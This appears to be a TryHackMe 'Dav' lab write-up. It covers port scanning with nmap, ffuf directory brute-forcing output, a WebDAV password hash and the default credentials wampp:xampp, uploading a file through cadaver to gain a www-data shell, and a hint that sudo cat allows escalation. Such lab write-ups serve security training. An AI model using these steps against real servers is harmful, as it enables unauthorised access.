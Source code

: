 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Dav/images/111-0.png)

I exploited a webdav service by using a tool called cadaver to upload files to the website. Cadaver is a webdav utility similarly to ftp command line. 

I started with a ports scanning.

```text
nmap -sS -T4 10.10.12.161 -p-
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 05:23 EDT
Nmap scan report for 10.10.12.161
Host is up (0.095s latency).
Not shown: 65534 closed ports
PORT STATE SERVICE
80/tcp open http


nmap -sV -sC -p80 10.10.12.161
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 05:12 EDT
Nmap scan report for 10.10.12.161
Host is up (0.053s latency).

PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

```

There is only one port open and displays the default ubuntu page. I did a quick directory bruteforcing and found an interesting page.

```text
{
   "commandline":"./ffuf -u http://10.10.12.161/FUZZ -w /usr/share/wordlists/dirb/common.txt -o /root/Documents/tryhackme/Dav/directories.txt",
   "time":"2020-09-29T05:16:53-04:00",
   "results":[
      {
         "input":{
            "FUZZ":".htpasswd"
         },
         "position":13,
         "status":403,
         "length":296,
         "words":22,
         "lines":12,
         "redirectlocation":"",
         "resultfile":"",
         "url":"http://10.10.12.161/.htpasswd",
         "host":"10.10.12.161"
      },
      {
         "input":{
            "FUZZ":".htaccess"
         },
         "position":12,
         "status":403,
         "length":296,
         "words":22,
         "lines":12,
         "redirectlocation":"",
         "resultfile":"",
         "url":"http://10.10.12.161/.htaccess",
         "host":"10.10.12.161"
      },
      {
         "input":{
            "FUZZ":".hta"
         },
         "position":11,
         "status":403,
         "length":291,
         "words":22,
         "lines":12,
         "redirectlocation":"",
         "resultfile":"",
         "url":"http://10.10.12.161/.hta",
         "host":"10.10.12.161"
      },
      {
         "input":{
            "FUZZ":""
         },
         "position":1,
         "status":200,
         "length":11321,
         "words":3503,
         "lines":376,
         "redirectlocation":"",
         "resultfile":"",
         "url":"http://10.10.12.161/",
         "host":"10.10.12.161"
      },
      {
         "input":{
            "FUZZ":"index.html"
         },
         "position":2021,
         "status":200,
         "length":11321,
         "words":3503,
         "lines":376,
         "redirectlocation":"",
         "resultfile":"",
         "url":"http://10.10.12.161/index.html",
         "host":"10.10.12.161"
      },
      {
         "input":{
            "FUZZ":"server-status"
         },
         "position":3589,
         "status":403,
         "length":300,
         "words":22,
         "lines":12,
         "redirectlocation":"",
         "resultfile":"",
         "url":"http://10.10.12.161/server-status",
         "host":"10.10.12.161"
      },
      {
         "input":{
            "FUZZ":"webdav"
         },
         "position":4395,
         "status":401,
         "length":459,
         "words":42,
         "lines":15,
         "redirectlocation":"",
         "resultfile":"",
         "url":"http://10.10.12.161/webdav",
         "host":"10.10.12.161"
      }
   ],
   "config":{
      "headers":{
         
      },
      "extensions":[
         
      ],
      "dirsearch_compatibility":false,
      "method":"GET",
      "url":"http://10.10.12.161/FUZZ",
      "postdata":"",
      "quiet":false,
      "colors":false,
      "inputproviders":[
         {
            "name":"wordlist",
            "keyword":"FUZZ",
            "value":"/usr/share/wordlists/dirb/common.txt"
         }
      ],
      "cmd_inputnum":100,
      "inputmode":"clusterbomb",
      "outputdirectory":"",
      "outputfile":"/root/Documents/tryhackme/Dav/directories.txt",
      "outputformat":"json",
      "ignorebody":false,
      "ignore_wordlist_comments":false,
      "stop_403":false,
      "stop_errors":false,
      "stop_all":false,
      "follow_redirects":false,
      "autocalibration":false,
      "autocalibration_strings":[
         
      ],
      "timeout":10,
      "delay":{
         "value":"0.00"
      },
      "filters":{
         
      },
      "matchers":{
         "status":{
            "value":"200,204,301,302,307,401,403"
         }
      },
      "threads":40,
      "proxyurl":"",
      "replayproxyurl":"",
      "cmdline":"./ffuf -u http://10.10.12.161/FUZZ -w /usr/share/wordlists/dirb/common.txt -o /root/Documents/tryhackme/Dav/directories.txt",
      "verbose":false,
      "maxtime":0,
      "maxtime_job":0,
      "recursion":false,
      "recursion_depth":0
   }
}
```

The /webdav page contains this file which conins this credentials: 
```text
 wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Dav/images/111-1.png)  

Luckily, i found this website which turned into a tutorial:  https://www.samsclass.info/124/proj14/p12-php.htm .According to the website i can use a tool called cadaver and i can list and upload files. This service also require authentication but i mamange to log in with the default credentials wampp:xammp.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Dav/images/111-2.png)

I uploaded the file and pasted the file name in the url to start the process.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Dav/images/111-3.png)

The current user is www-data.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Dav/images/111-4.png)

The user flag is in the merlin's home folder.  
```text
www-data@ubuntu:/home/merlin$ ls -la
ls -la
total 44
drwxr-xr-x 4 merlin merlin 4096 Aug 25 2019 .
drwxr-xr-x 4 root root 4096 Aug 25 2019 ..
-rw------- 1 merlin merlin 2377 Aug 25 2019 .bash_history
-rw-r--r-- 1 merlin merlin 220 Aug 25 2019 .bash_logout
-rw-r--r-- 1 merlin merlin 3771 Aug 25 2019 .bashrc
drwx------ 2 merlin merlin 4096 Aug 25 2019 .cache
-rw------- 1 merlin merlin 68 Aug 25 2019 .lesshst
drwxrwxr-x 2 merlin merlin 4096 Aug 25 2019 .nano
-rw-r--r-- 1 merlin merlin 655 Aug 25 2019 .profile
-rw-r--r-- 1 merlin merlin 0 Aug 25 2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root 183 Aug 25 2019 .wget-hsts
-rw-rw-r-- 1 merlin merlin 33 Aug 25 2019 user.txt
www-data@ubuntu:/home/merlin$
```
This user can use sudo with command cat.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Dav/images/111-5.png)
